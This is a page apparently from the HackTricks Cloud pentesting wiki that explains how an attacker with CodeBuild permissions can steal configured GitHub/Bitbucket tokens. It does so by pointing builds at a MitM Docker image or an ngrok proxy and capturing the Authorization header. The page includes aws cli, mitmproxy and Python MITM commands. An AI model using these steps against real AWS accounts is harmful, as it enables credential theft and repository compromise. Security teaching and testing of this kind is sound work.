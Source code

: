 # AWS Codebuild - Token Leakage

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Recover Github/Bitbucket Configured Tokens

First, check if there are any source credentials configured tha you could leak:

```bash
aws codebuild list-source-credentials
```

### Via Docker Image

If you find that authentication to for example Github is set in the account, you can **exfiltrate** that **access** (**GH token or OAuth token**) by making Codebuild to **use an specific docker image** to run the build of the project.

For this purpose you could **create a new Codebuild project** or change the **environment** of an existing one to set the **Docker image**.

The Docker image you could use is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). This is a very basic Docker image that will set the **env variables `https_proxy`**, **`http_proxy`** and **`SSL_CERT_FILE`**. This will allow you to intercept most of the traffic of the host indicated in **`https_proxy`** and **`http_proxy`** and trusting the SSL CERT indicated in **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
   * Follow the instructions of the repo to set your proxy IP address and set your SSL cert and **build the docker image**.
     * **DO NOT SET `http_proxy`** to not intercept requests to the metadata endpoint.
   * You could use **`ngrok`** like `ngrok tcp 4444` lo set the proxy to your host
   * Once you have the Docker image built, **upload it to a public repo** (Dockerhub, ECR...)
2. **Set the environment**
   * Create a **new Codebuild project** or **modify** the environment of an existing one.
   * Set the project to use the **previously generated Docker image**
   *

       <figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **Set the MitM proxy in your host**
   * As indicated in the **Github repo** you could use something like:

```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```

4. **Run the build & capture the credentials**

*   You can see the token in the **Authorization** header:

    <figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

This could also be done from the aws cli with something like

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
    "name": "my-demo-project",
    "source": {
        "type": "GITHUB",
        "location": "https://github.com/uname/repo",
        "buildspec": "buildspec.yml"
    },
    "artifacts": {
        "type": "NO_ARTIFACTS"
    },
    "environment": {
        "type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
        "image": "docker.io/carlospolop/docker-mitm:v12",
        "computeType": "BUILD_GENERAL1_SMALL",
        "imagePullCredentialsType": "CODEBUILD"
    }
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**This vulnerability was corrected by AWS at some point the week of the 20th of Feb of 2023 (I think on Friday). So an attacker can't abuse it anymore :)**
{% endhint %}

An attacker with **elevated permissions in over a CodeBuild could leak the Github/Bitbucket token** configured or if permissions was configured via OAuth, the **temporary OAuth token used to access the code**.

* An attacker could add the environment variables **http\_proxy** and **https\_proxy** to the CodeBuild project pointing to his machine (for example `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* Then, change the URL of the github repo to use HTTP instead of HTTPS, for example: **http://**github.com/carlospolop-forks/TestActions
* Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http\_proxy and https\_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="127.0.0.1",
    port=4444,
    protocols=[protocol.HTTP], 
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

* Finally, click on **Build the project**, the **credentials** will be **sent in clear text** (base64) to the mitm port:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Now an attacker will be able to use the token from his machine, list all the privileges it has and (ab)use easier than using the CodeBuild service directly.
{% endhint %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
